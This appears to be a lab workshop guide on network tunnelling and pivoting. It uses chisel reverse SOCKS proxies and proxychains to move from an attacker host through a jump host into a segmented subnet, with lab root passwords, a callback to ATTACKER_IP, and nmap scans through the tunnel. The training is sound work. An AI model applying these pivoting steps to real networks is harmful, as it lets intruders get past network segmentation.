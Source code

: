 # Network Tunneling & Pivoting – Workshop Diagrams

## Network Topology
```mermaid
flowchart LR
  subgraph "Internal (172.16.5.0/24)"
    A[Attacker
    ------------
    *172.16.5.2*
    **root:root**]
    J[Jump
    ------------
    *172.16.5.3
    192.168.80.10*
    **root:hackme123**
    ]
  end

  subgraph "Secure (192.168.80.0/24)"
    S[Secure
    ------------
    *192.168.80.30*
    **root:Aa123456**
    ]
  end

  A <--> J
  J <--> S
```

**Legend**
- Solid lines = native routing reachability between hosts.
- Tunnels / proxies will be overlaid in the flow diagrams below.


## Step‑by‑Step Communication Flows & Commands
### Step 0 - Establish Initial Connections
Connect to **Attacker** (172.16.5.2) via SSH.
```bash
ssh root@172.16.5.2
```

From there connect to **Jump** (172.16.5.3) via SSH.
```bash
ssh root@172.16.5.3
```

Open additional SSH session for **Attacker** machine.

### Step 1 – Create a reverse SOCKS proxy via **Jump** (preferred for pivoting)
Goal: Get a SOCKS5 proxy that lets the **attacker** drive traffic through **Jump** into 192.168.80.0/24.

**Commands**
```bash
# On ATTACKER (listen for reverse connections)
chisel server -p 8000 --reverse

# On JUMP (connect out to attacker; create SOCKS on the SERVER side = ATTACKER)
chisel client ATTACKER_IP:8000 R:50001:socks
```
This creates a SOCKS5 listener on the **attacker** at `127.0.0.1:50001`.

**ProxyChains on attacker**
```bash
printf "\nsocks5\t127.0.0.1\t50001\n" | sudo tee -a /etc/proxychains4.conf
```

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump

  A->>A: Open chisel server on port 8000
  J->>A: Connect to chisel server and request the server to open port 50001 as socks
  Note over A: SOCKS5 now at 127.0.0.1:50001
  Note over A,J: 5001 -> chisel tunnel ->
  A->>J: proxychains src - attacker:5001 - chisel server:8000 - chisel client - dest
```

### Step 2 – Use ProxyChains through **Jump** to reach **Secure**
With SOCKS on the **attacker**, you can already drive traffic to `192.168.80.30` via Jump.

**Examples**
```bash
# Enumerate Secure’s web app via the Jump SOCKS (remember: ICMP/ping won’t work over SOCKS)
proxychains nmap -sT -Pn 192.168.80.30
```

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump
  participant S as Secure

  Note over A,J: 5001 -> chisel tunnel ->
  A->>J: Chisel encapsulated nmap scan
  J->>S: nmap TCP connect scan
  S-->>J: TCP connect response
  J-->>A: TCP connect response encapsulated in Chisel
```

### Step 3 – Add a second tunnel **from Secure back to Attacker** using the Jump path
Goal: Expose Secure’s port 80 on the attacker as a local port. This is handy for tools that don’t like SOCKS.

**Commands**
```bash
# Keep the Step 1 chisel server running on attacker (port 8000).
# On SECURE, route the client through the Jump path by using the SOCKS on the attacker (already exists at 127.0.0.1:50001)
# We’ll daisy-chain with proxy support so Secure can reach the attacker through Jump.

# On SECURE (first, SSH in from attacker via proxychains):
proxychains ssh root@192.168.80.30
# Password: Aa123456

# On SECURE (once logged in):
chisel server --socks5 -p 8001

# On ATTACKER
chisel client --proxy socks://127.0.0.1:50001 192.168.80.30:8001 50002:socks
```

**Result:** Attackers port 50002 tunnels traffic to Secure through Jump.

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump
  participant S as Secure

  Note over A,J: 5001 -> chisel tunnel 1 ->
  A->>J: chisel (ssh root@192.168.80.30)
  J->>S: ssh root@192.168.80.30
  S-->>A: ssh connection
  S->>S: chisel server on port 8001
  J->>S: chisel 192.168.80.30:8001
  A->>J: chisel (chisel 192.168.80.30:8001)
  A->>A: Open port 50002 for socks
  Note over A,S: 5002 -> chisel tunnel 2 ->
```

**Update ProxyChains**
```bash
sed -i 's/50001/50002/' /etc/proxychains4.conf
```

---

### Step 4 – Exploit the web app
Use proxychains to route traffic through the SOCKS:50002 proxy to access Secure:80.

**Examples**
```bash
proxychains bash

# Access Secure:80
curl -i http://127.0.0.1:80/
```

### Finally
```mermaid
flowchart LR
  A[Attacker
  *chisel:8000*
  *socks:50001*
  *socks:50002*]
  J[Jump
  *ssh:22*]
  S[Secure
  *ssh:22*
  *chisel:8001*]

  subgraph Internal
    J ==>|chisel:8000| A
    A ====|SOCKS:5001| J
  end
  A ===|"SOCKS:50001(chisel:8001)"| J
  subgraph Secure
    J ==>|chisel:8001| S
    A ===|SOCKS:50002| S
  end

  linkStyle 0 stroke:red;
  linkStyle 1 stroke:yellow;
  linkStyle 2 stroke:green;
  linkStyle 3 stroke:green;
  linkStyle 4 stroke:orange;
```
## Notes & Gotchas
- **DNS over SOCKS**: enable `proxy_dns` in `/etc/proxychains4.conf` if you need name resolution through the proxy.
- **ICMP isn’t proxied** via SOCKS (expect `ping` to fail). Use TCP scans (`-sT`) with `-Pn`.
- **Stability**: prefer `dynamic_chain` in ProxyChains; avoid `strict_chain` while testing.

